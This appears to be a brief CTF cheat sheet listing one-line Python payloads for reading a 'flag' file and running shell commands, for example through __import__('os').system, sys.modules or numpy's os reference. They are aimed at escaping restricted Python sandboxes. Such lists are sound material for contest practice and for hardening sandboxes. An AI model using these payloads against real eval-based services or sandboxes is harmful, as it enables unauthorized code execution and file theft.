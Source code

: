 # pythonCtfTricks

### reading content from a file:
---
* ```[*open("flag")]```
* ```type([ ] )(open("flag"))```
* ```__import__('numpy').loadtxt('flag') ``` - works with error reflecting
* ```__import__('numpy').fromfile('flag', dtype=numpy.uint8) ```
---
### rce
---
* ```__import__('os').system('cat flag')```
* ```__import__('sys').modules['os'].system('cat flag')      ```
* ```numpy.ctypeslib.os.system('cat flag') ```
* ```from os import system as __getattr__; from __main__ import sh ```
---
